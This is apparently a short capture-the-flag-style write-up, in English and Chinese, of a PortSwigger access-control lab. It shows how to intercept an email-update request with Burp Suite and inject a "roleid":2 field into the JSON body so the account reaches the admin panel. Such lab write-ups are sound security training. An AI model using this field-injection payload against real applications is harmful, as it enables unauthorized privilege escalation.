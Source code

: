 # User role can be modified in user profile

## Information
---

- [PortSwigger - Lab: User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)

This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2.

Solve the lab by accessing the admin panel and using it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 

## Solution
---

1. 傳送 email 更新，並利用 **Burp Suite** 攔截。

2. 將 JSON 資料格式中添加 **"roleid":2**。
    ```json
    {
        "email":"H4ck@emaple.com",
		"roleid":2
    }
    ```